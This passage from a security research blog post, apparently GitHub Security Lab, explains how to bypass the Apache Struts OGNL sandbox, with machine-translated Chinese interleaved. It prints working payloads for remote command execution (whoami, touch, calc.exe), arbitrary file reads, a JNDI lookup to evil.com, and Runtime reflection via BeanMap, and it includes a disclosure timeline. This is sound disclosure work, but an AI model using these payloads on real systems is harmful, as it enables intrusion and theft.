    -   `ognl` (`org.apache.struts2.views.jsp.ui.OgnlTool`)
    -   `struts` (`org.apache.struts2.views.velocity.result.VelocityStrutsUtils`)

### Getting RCE with new objects  
使用新对象获取 RCE[](#getting-rce-with-new-objects)

And now let’s have some fun with these new objects! In the following section I will explain how I was able to leverage some of these objects to get remote code execution.  
现在，让我们用这些新对象来玩一玩吧！在下面的部分中，我将解释我是如何利用这些对象来获得远程代码执行的。

#### ObjectWrapper[](#objectwrapper)

There may be different ways to get an instance of a FreeMarker’s `ObjectWrapper`, even if the application is not using FreeMarker as its view layer because Struts uses it internally for rendering JSP tags. A few of them are listed below:  
可能有不同的方法来获取 FreeMarker 的 `ObjectWrapper` 实例，即使应用程序没有使用 FreeMarker 作为其视图层，因为 Struts 在内部使用它来呈现 JSP 标记。以下列出了其中的一些：

-   Through `freemarker.ext.jsp.TaglibFactory.getObjectWrapper()`. Even though Struts’ sandbox forbids access to `freemarker.ext.jsp` package, we can still access it using a BeanMap:  
    通过 `freemarker.ext.jsp.TaglibFactory.getObjectWrapper()` 。即使 Struts 的沙箱禁止访问 `freemarker.ext.jsp` 包，我们仍然可以使用 BeanMap 访问它：

```shell
(#a=#@org.apache.commons.collections.BeanMap@{ })+

(#a.setBean(#application[".freemarker.JspTaglibs"]))+

(#a['objectWrapper'])
```

-   Through `freemarker.ext.servlet.HttpRequestHashModel.getObjectWrapper()`: 通过 `freemarker.ext.servlet.HttpRequestHashModel.getObjectWrapper()` ：

```kotlin
(#request.get('.freemarker.Request').objectWrapper)
```

-   Through `freemarker.core.Configurable.getObjectWrapper()`. We need to use the BeanMap trick to access it since `freemarker.core` is also blocklisted:  
    通过 `freemarker.core.Configurable.getObjectWrapper()` 。我们需要使用 BeanMap 技巧来访问它，因为 `freemarker.core` 也被阻止了：

```shell
(#a=#@org.apache.commons.collections.BeanMap@{ })+

(#a.setBean(#application['freemarker.Configuration']))+

#a['objectWrapper']
```

Now for the fun part, what can we do with an `ObjectWrapper`? There are three interesting methods we can leverage to get RCE:  
有趣的是，我们可以用 `ObjectWrapper` 做什么？我们可以利用三种有趣的方法来获得 RCE：

**`newInstance(class, args)`**

This method will allow us to instantiate an arbitrary type. Arguments must be wrapped, but the return value is not. For example, we can trigger a JNDI injection lookup:  
这个方法允许我们实例化任意类型。参数必须包装，但返回值不包装。例如，我们可以触发一个 JNDI 注入查找：

```less
objectWrapper.newInstance(@javax.naming.InitialContext@class,null).lookup("ldap://evil.com")
```

Or, if Spring libs are available, we can get RCE by supplying a malicious [XML config](https://raw.githubusercontent.com/irsl/jackson-rce-via-spel/master/spel.xml) for `FileSystemXmlApplicationContext` constructor:  
或者，如果 Spring libs 可用，我们可以通过为 `FileSystemXmlApplicationContext` constructor 提供恶意的 XML 配置来获取 RCE：

```less
objectWrapper.newInstance(@org.springframework.context.support.FileSystemXmlApplicationContext@class,{#request.get('.freemarker.Request').objectWrapper.wrap("URL")})
```

`**getStaticModels()**`

This method allows us to get static fields from arbitrary types. The return object is wrapped in a FreeMarker’s `TemplateModel` so we need to unwrap it. An example payload levering [Text4Shell](https://securitylab.github.com/advisories/GHSL-2022-018_Apache_Commons_Text/):  
这个方法允许我们从任意类型中获取静态字段。返回对象被包装在 FreeMarker 的 `TemplateModel` 中，因此我们需要将其展开。一个示例负载勒韦林 Text4Shell：

```csharp
objectWrapper.staticModels.get("org.apache.commons.text.lookup.StringLookupFactory").get("INSTANCE").getWrappedObject().scriptStringLookup().lookup("javascript:3+4")
```

`**wrapAsAPI()**`

This method allows us to wrap any object with a `freemarker.ext.beans.BeanModel` giving us indirect access to its getters and setters methods. Struts’ sandbox will not have visibility on these calls and therefore they can be used to call any blocklisted method.  
这个方法允许我们用 `freemarker.ext.beans.BeanModel` 包装任何对象，让我们间接访问它的 getters 和 setters 方法。Struts 的沙箱对这些调用没有可见性，因此它们可以用于调用任何被阻止的方法。

-   `BeanModel.get('field_name')` returns a `TemplateModel` wrapping the object.  
    `BeanModel.get('field_name')` 返回一个 `TemplateModel` 包装对象。
-   `BeanModel.get('method_name')` returns either a `SimpleMethodModel` or `OverloadedMethodsModel` wrapping the method.  
    `BeanModel.get('method_name')` 返回包装方法的 `SimpleMethodModel` 或 `OverloadedMethodsModel` 。

We can, therefore, call any blocklisted method with:  
因此，我们可以调用任何 blocklisted 方法：

```scss
objectWrapper.wrapAsAPI(blocked_object).get(blocked_method)
```

This call will return an instance of `TemplateMethodModelEx`. Its `[exec()](https://freemarker.apache.org/docs/api/freemarker/template/TemplateMethodModelEx.html#exec-java.util.List-)` method is defined in the `freemarker.template` namespace and, therefore, trying to invoke this method will get blocked by the Struts sandbox. However, `TemplateMethodModelEx` is an interface and what we will really get is an instance of either `freemarker.ext.beans.SimpleMethodModel` or `freemarker.ext.beans.OverloadedMethodsModel`. Since the `exec()` methods on both of them are defined on the `freemarker.ext.beans` namespace, which is not blocklisted, their invocation will succeed. As we saw before, arguments need to be wrapped. As an example we can call the `File.createTempFile(“PREFIX”, “SUFFIX”)` using the following payload:  
此调用将返回 `TemplateMethodModelEx` 的实例。它的 `[exec()](https://freemarker.apache.org/docs/api/freemarker/template/TemplateMethodModelEx.html#exec-java.util.List-)` 方法是在 `freemarker.template` 命名空间中定义的，因此，尝试调用此方法将被 Struts 沙箱阻止。然而， `TemplateMethodModelEx` 是一个接口，我们真正得到的是 `freemarker.ext.beans.SimpleMethodModel` 或 `freemarker.ext.beans.OverloadedMethodsModel` 的实例。由于它们的 `exec()` 方法都是在 `freemarker.ext.beans` 命名空间中定义的，而这个命名空间并没有被禁止，所以它们的调用将会成功。正如我们之前看到的，参数需要包装。例如，我们可以使用以下有效负载调用 `File.createTempFile(“PREFIX”, “SUFFIX”)` ：

```csharp
objectWrapper.getStaticModels().get("java.io.File").get("createTempFile").exec({objectWrapper.wrap("PREFIX"), objectWrapper.wrap("SUFFIX")})
```

We can achieve the same by calling the `getAPI()` on any `freemarker.template.TemplateModelWithAPISupport` instance. Many of the FreeMarker exposed objects inherit from this interface and will allow us to wrap them with a `BeanModel`. For example, to list all the keys in the Struts Value Stack we can use:  
我们可以通过在任何 `freemarker.template.TemplateModelWithAPISupport` 实例上调用 `getAPI()` 来实现同样的效果。许多 FreeMarker 公开的对象继承自这个接口，并允许我们用 `BeanModel` 包装它们。例如，要列出 Struts 值堆栈中的所有键，我们可以使用用途：

```scss
#request['.freemarker.TemplateModel'].get('stack').getAPI().get("context").getAPI().get("keySet").exec({})
```

Note that `com.opensymphony.xwork2.util.OgnlContext.keySet()` would be blocked since it belongs to the `com.opensymphony.xwork2.util` namespace, but in this case, Struts’ sandbox will only see calls to `TemplateHashModel.get()` and `TemplateModelWithAPISupport.getAPI()` which are both allowed.  
注意 `com.opensymphony.xwork2.util.OgnlContext.keySet()` 会被阻止，因为它属于 `com.opensymphony.xwork2.util` 命名空间，但在这种情况下，Struts 的沙箱只会看到对 `TemplateHashModel.get()` 和 `TemplateModelWithAPISupport.getAPI()` 的调用，这两个调用都是允许的。

The last payload will give us a complete list of all available objects in the Value Stack, many of which could be used for further attacks. Lets see a more interesting example by reading an arbitrary file using `BeanModel`s:  
最后一个有效载荷将给予我们提供值堆栈中所有可用对象的完整列表，其中许多可以用于进一步的攻击。让我们看一个更有趣的例子，通过使用 `BeanModel` s 阅读任意文件：

```kotlin
(#bw=#request.get('.freemarker.Request').objectWrapper).toString().substring(0,0)+

(#f=#bw.newInstance(@java.io.File@class,{#bw.wrap("C:\\REDACTED\\WEB-INF\\web.xml")}))+ 

(#p=#bw.wrapAsAPI(#f).get("toPath").exec({}))+

(#ba=#bw.getStaticModels().get("java.nio.file.Files").get("readAllBytes").exec({#bw.wrap(#p)}))+

"----"+

(#b64=#bw.getStaticModels().get("java.util.Base64").get("getEncoder").exec({}).getAPI().get("encodeToString").exec({#bw.wrap(#ba)}))
```

Or listing the contents of a directory:  
或者列出目录的内容：

```kotlin
(#bw=#request.get('.freemarker.Request').objectWrapper).toString().substring(0,0)+

(#dir=#bw.newInstance(@java.io.File@class,{#bw.wrap("C:\\REDACTED\\WEB-INF\\lib")}))+ 

(#l=#bw.wrapAsAPI(#dir).get("listFiles").exec({}).getWrappedObject())+"---"+

(#l.{#this})
```

#### OgnlTool/OgnlUtil Ognltool / 所有[](#ognltool-ognlutil)

The `org.apache.struts2.views.jsp.ui.OgnlTool` class was calling `Ognl.getValue()` with no `OgnlContext` and even though the Ognl library will take care of creating a default one, it will not include all the additional security checks added by the Struts framework and is easily bypassable:  
`org.apache.struts2.views.jsp.ui.OgnlTool` 类调用了 `Ognl.getValue()` 而没有 `OgnlContext` ，即使 Ognl 库会负责创建一个默认的，它也不会包括 Struts 框架添加的所有额外的安全检查，并且很容易被绕过：

```java
package org.apache.struts2.views.jsp.ui;

import ognl.Ognl;

import ognl.OgnlException;

import com.opensymphony.xwork2.inject.Inject;

public class OgnlTool {

    private OgnlUtil ognlUtil;

    public OgnlTool() { }


    @Inject

    public void setOgnlUtil(OgnlUtil ognlUtil) {

        this.ognlUtil = ognlUtil;

    }


    public Object findValue(String expr, Object context) {

        try {

            return Ognl.getValue(ognlUtil.compile(expr), context);

        } catch (OgnlException e) {

            return null;

        }

    }

}
```

We can get an instance of `OgnlTool` from both FreeMarker and Velocity post-invocation contexts:  
我们可以从 FreeMarker 和 Velocity 后调用上下文中获取 `OgnlTool` 的实例：

```less
#request['.freemarker.TemplateModel'].get('ognl')
```

Or

```less
#request['.KEY_velocity.struts2.context'].internalGet('ognl')
```

For FreeMarker’s case, it will come up wrapped with a Template model but we can just unwrap it and use it to get RCE:  
对于 FreeMarker 的情况，它会出现一个模板模型，但我们可以打开它并使用它来获得 RCE：

```kotlin
(#a=#request.get('.freemarker.Request').objectWrapper.unwrap(#request['.freemarker.TemplateModel'].get('ognl'),'org.apache.struts2.views.jsp.ui.OgnlTool'))+

(#a.findValue('(new freemarker.template.utility.Execute()).exec({"whoami"})',null))
```

Or, even simpler: 或者，更简单：

```less
#request['.freemarker.TemplateModel'].get('ognl').getWrappedObject().findValue('(new freemarker.template.utility.Execute()).exec({"whoami"})',{})
```

`OgnlTool` was [inadvertently fixed](https://github.com/apache/struts/commit/5cd409d382e00b190bfe4e957c4167d06b8f9da1#diff-55821720c975d84350d796bec09aa366cc2b2861fb7e12f223cc5a4453b55640) when Struts 6.0.0 was released by upgrading to OGNL 3.2.2 which always requires a `MemberAccess`. But the latest Struts 2 version (2.5.30) is still vulnerable to this payload.  
当 Struts 6.0.0 通过升级到 OGNL 3.2.2 发布时， `OgnlTool` 被无意中修复，OGNL 3.2.2 总是需要 `MemberAccess` 。但是最新的 Struts2 版本（2.5.30）仍然容易受到这种负载的攻击。

#### StrutsUtil[](#strutsutil)

Another object that can be accessed in the post-invocation context is an instance of `org.apache.struts2.util.StrutsUtil`. There are plenty of interesting methods in here:  
另一个可以在调用后上下文中访问的对象是 `org.apache.struts2.util.StrutsUtil` 的实例。这里有很多有趣的方法：

-   `public String include(Object aName)` can be used to read arbitrary resources  
    `public String include(Object aName)` 可用于读取任意资源
    -   `<struts_utils>.include("/WEB-INF/web.xml")`
-   `public Object bean(Object aName)` can be used to instantiate arbitrary types:  
    `public Object bean(Object aName)` 可用于实例化任意类型：
    -   `<struts_utils>.bean("javax.script.ScriptEngineManager")`
-   `public List makeSelectList(String selectedList, String list, String listKey, String listValue)`
    -   `listKey` and `listValue` are evaluated with OgnlTool and therefore in an unsandboxed context  
        `listKey` 和 `listValue` 使用 OgnlTool 进行评估，因此在非沙箱环境中进行评估
    -   `<struts_utils>.makeSelectList("#this","{'foo'}","(new freemarker.template.utility.Execute()).exec({'touch /tmp/bbbb'})","")`

On applications using Velocity as its view layer, this object will be an instance of `VelocityStrutsUtil` which extends `StrutsUtils` and provides an additional vector:  
在使用 Velocity 作为其视图层的应用程序中，此对象将是 `VelocityStrutsUtil` 的实例，它扩展了 `StrutsUtils` 并提供了一个额外的向量：

-   `public String evaluate(String expression)` will allow us to evaluate a string containing a velocity template:  
    `public String evaluate(String expression)` 将允许我们评估包含 velocity 模板的字符串：

```bash
(<struts_utils>.evaluate("#set ($cmd='java.lang.Runtime.getRuntime().exec(\"touch /tmp/pwned_velocity\")') $application['org.apache.tomcat.InstanceManager'].newInstance('javax.script.ScriptEngineManager').getEngineByName('js').eval($cmd)"))
```

#### JspApplicationContextImpl[](#jspapplicationcontextimpl)

The last vector that I wanted to share is one that I found a few years ago and that I was not able to exploit–although I was pretty sure that there had to be a way. New post-invocation discovered objects finally made this possible!  
我想分享的最后一个矢量是我几年前发现的，我无法利用它 - 尽管我很确定必须有一种方法。新的调用后发现的对象最终使这成为可能！

If you have inspected the Struts Servlet context (`#application`) in the past you probably saw an item with key `org.apache.jasper.runtime.JspApplicationContextImpl` which returned an instance of `org.apache.jasper.runtime.JspApplicationContextImpl`. This class contains a method called `getExpressionFactory()` that returns an Expression Factory that will expose a `createValueExpression()` method. This looks like a perfect place to create an EL expression and evaluate it. The problem was that `[createValueExpression](https://docs.oracle.com/javaee/7/api/javax/el/ExpressionFactory.html#createValueExpression-javax.el.ELContext-java.lang.String-java.lang.Class-)` requires an instance of `ELContext` and we had none.  
如果您以前检查过 StrutsServlet 上下文（ `#application` ），您可能会看到一个带有键 `org.apache.jasper.runtime.JspApplicationContextImpl` 的项返回了一个 `org.apache.jasper.runtime.JspApplicationContextImpl` 的实例。这个类包含一个名为 `getExpressionFactory()` 的方法，它返回一个表达式工厂，该工厂将公开一个 `createValueExpression()` 方法。这看起来像是一个创建 EL 表达式并对其求值的完美地方。问题是 `[createValueExpression](https://docs.oracle.com/javaee/7/api/javax/el/ExpressionFactory.html#createValueExpression-javax.el.ELContext-java.lang.String-java.lang.Class-)` 需要一个 `ELContext` 的实例，而我们没有。

Fortunately, our post-invocation technique brought a new object into play. When using JSPs as the view layer, `#request['com.opensymphony.xwork2.dispatcher.PageContext']` will return an uninitialized `org.apache.jasper.runtime.PageContextImpl` instance that we can use to create an `ELContext` and evaluate arbitrary EL expressions:  
幸运的是，我们的后调用技术引入了一个新的对象。当使用 JSP 作为视图层时， `#request['com.opensymphony.xwork2.dispatcher.PageContext']` 将返回一个未初始化的 `org.apache.jasper.runtime.PageContextImpl` 实例，我们可以使用它来创建一个 `ELContext` 并计算任意 EL 表达式：

```shell
(#attr['com.opensymphony.xwork2.ActionContext.actionInvocation'].invoke())+

(#ctx=#request['com.opensymphony.xwork2.dispatcher.PageContext'])+

(#jsp=#application['org.apache.jasper.runtime.JspApplicationContextImpl'])+

(#elctx=#jsp.createELContext(#ctx))+

(#jsp.getExpressionFactory().createValueExpression(#elctx, '7*7', @java.lang.Class@class).getValue(#elctx))
```

The avid readers may be wondering why Struts stores the `PageContext` in the request. Well, turns out, it does not, but we can access it through chained contexts.  
热心的读者可能想知道为什么 Struts 在请求中存储 `PageContext` 。事实证明，它并不存在，但我们可以通过链接上下文访问它。

When accessing `#attr` (`AttributeMap`), [we can indirectly look into multiple scopes](https://struts.apache.org/maven/struts2-core/apidocs/org/apache/struts2/util/AttributeMap.html) such as the Page, Request, Session and Application (Servlet). But there is more, `org.apache.struts2.dispatcher.StrutsRequestWrapper.getAttribute()` will look for the attribute in the `ServletRequest`, if it can’t find it there, [it will search the value stack](https://github.com/apache/struts/blob/master/core/src/main/java/org/apache/struts2/dispatcher/StrutsRequestWrapper.java#L94)! So, we can effectively access the value stack through the `#request` or `#attr` variables.  
当访问 `#attr` （ `AttributeMap` ）时，我们可以间接地查看多个范围，例如 Page，Request，Session 和 Application（Servlet）。但是还有更多， `org.apache.struts2.dispatcher.StrutsRequestWrapper.getAttribute()` 会在 `ServletRequest` 中查找属性，如果在那里找不到，它会搜索值堆栈！因此，我们可以通过 `#request` 或 `#attr` 变量有效地访问值堆栈。

In this case, the `PageContext` was not stored in the request scope, but in the Value stack, and we are able to access it through chained context searches.  
在本例中， `PageContext` 没有存储在请求作用域中，而是存储在 Value 堆栈中，我们可以通过链式上下文搜索访问它。

We can even run arbitrary OGNL expressions as long as they don’t contain any hashes (`#`), for example, `#request["@java.util.HashMap@class"]` will return the `HashMap` class.  
我们甚至可以运行任意的 OGNL 表达式，只要它们不包含任何哈希值（ `#` ），例如， `#request["@java.util.HashMap@class"]` 将返回 `HashMap` 类。

### Leveling up the BeanMap payload  
升级 BeanMap 有效负载[](#leveling-up-the-beanmap-payload)

You may already be familiar with McOwn’s [technique](https://mc0wn.blogspot.com/2021/04/exploiting-struts-rce-on-2526.html). He realized that it was possible to use [OGNL Map notation](https://commons.apache.org/proper/commons-ognl/language-guide.html) to instantiate an `org.apache.commons.collections.BeanMap` by using the `#@org.apache.commons.collections.BeanMap@{ }` syntax, and then it was possible to wrap any Java object on this map and access any getters and setters as map properties. His payload was based on the `org.apache.tomcat.InstanceManager` payload we introduced at [Black Hat 2020](https://i.blackhat.com/USA-20/Wednesday/us-20-Munoz-Room-For-Escape-Scribbling-Outside-The-Lines-Of-Template-Security-wp.pdf) and looked like:  
您可能已经熟悉 McOwn 的技术。他意识到可以使用 OGNL Map 表示法通过使用 `#@org.apache.commons.collections.BeanMap@{ }` 语法来实例化 `org.apache.commons.collections.BeanMap` ，然后可以在此 map 上包装任何 Java 对象并访问任何 getter 和 setter 作为 map 属性。他的有效载荷基于我们在 Black Hat 2020 上介绍的 `org.apache.tomcat.InstanceManager` 有效载荷，看起来像：

```kotlin
(#request.map=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +

(#request.map.setBean(#request.get('struts.valueStack')) == true).toString().substring(0,0) +

(#request.map2=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +

(#request.map2.setBean(#request.get('map').get('context')) == true).toString().substring(0,0) +

(#request.map3=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +

(#request.map3.setBean(#request.get('map2').get('memberAccess')) == true).toString().substring(0,0) +

(#request.get('map3').put('excludedPackageNames',#@org.apache.commons.collections.BeanMap@{}.keySet()) == true).toString().substring(0,0) +

(#request.get('map3').put('excludedClasses',#@org.apache.commons.collections.BeanMap@{}.keySet()) == true).toString().substring(0,0) +

(#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'calc.exe'}))
```

The payload was basically disabling the OGNL sandbox and then accessing otherwise blocked classes such as `InstanceManager`. There is a simpler way to abuse BeanMaps that do not require to disable the sandbox and that is using reflection:  
有效负载基本上是禁用 OGNL 沙箱，然后访问其他被阻止的类，如 `InstanceManager` 。有一种更简单的方法来滥用 BeanMaps，不需要禁用沙箱，并且使用反射：

```shell
(#c=#@org.apache.commons.beanutils.BeanMap@{})+

(#c.setBean(@Runtime@class))+

(#rt=#c['methods'][6].invoke())+

(#c['methods'][12]).invoke(#rt,'touch /tmp/pwned')
```

This payload also works in Struts 6 if the `BeanClass` is available in the classpath (either from Apache Commons Collections or Apache Commons BeanUtils), but you need to specify the FQN (Fully Qualified Name) name for `Runtime`: `@java.lang.Runtime@class`.  
如果类路径中有 `BeanClass` （来自 Apache Commons Collections 或 Apache Commons BeanUtils），则此有效负载也可以在 Struts 6 中工作，但您需要为 `Runtime` ： `@java.lang.Runtime@class` 指定一个名为 WARN（完全限定名称）的名称。

### Timeline 时间轴[](#timeline)

These bypasses were first reported to the Struts and OGNL security teams on June 9, 2022.  
这些绕过于 2022 年 6 月 9 日首次报告给 Struts 和 OGNL 安全团队。

On October 7, 2022, the security team replied to us and stated that improving the block lists was not a sustainable solution, and, therefore, they decided to stop doing it. They highlighted that a [Java Security Manager can be configured](https://struts.apache.org/security/#proactively-protect-from-ognl-expression-injections-attacks-if-easily-applicable) to protect every OGNL evaluation from these attacks and we highly recommend doing so if you are running a Struts application. However, bear in mind that the [Security Manager is deprecated](https://openjdk.org/jeps/411) and will soon get removed from the JDK.  
2022 年 10 月 7 日，安全团队回复我们，并表示改进阻止列表不是一个可持续的解决方案，因此，他们决定停止这样做。他们强调，可以配置 Java 安全管理器来保护每个 OGNL 评估免受这些攻击，如果您正在运行 Struts 应用程序，我们强烈建议您这样做。但是，请记住，安全管理器已被弃用，并将很快从 JDK 中删除。

## That’s a wrap That's a wrap[](#thats-a-wrap)

At this point, you will have probably realized that sandboxing an expression language, such as OGNL, is a really difficult task, and may require maintaining a list of blocked classes and OGNL features even though that is not an optimal approach. In this blog post, we have reviewed a few ways in which these sandboxes can be bypassed. Although they are specific to OGNL, hopefully you have learned to explore sandbox controls–and one or two new tricks–that may apply to other sandboxes. In total, we were able to raise $5,600, which we donated to [UNHCR](https://www.unhcr.org/) to help provide refuge for Ukrainians seeking protection from the war.  
此时，您可能已经意识到，对表达式语言（如 OGNL）进行沙箱化是一项非常困难的任务，并且可能需要维护一个阻塞类和 OGNL 特性的列表，尽管这不是最佳方法。在这篇博客文章中，我们回顾了一些可以绕过这些沙箱的方法。虽然它们是特定于 OGNL 的，但希望您已经学会了探索沙箱控件以及一两个可能适用于其他沙箱的新技巧。我们总共筹集了 5,600 美元，捐给了联合国难民署，帮助为寻求战争保护的乌克兰人提供避难所。

Tags: Tags：

-   [↓↓↓](https://github.blog/tag/github-security-lab/)  
      
    GitHub Security Lab  GitHub 安全实验室  
      
    [↑↑↑](https://github.blog/tag/github-security-lab/)
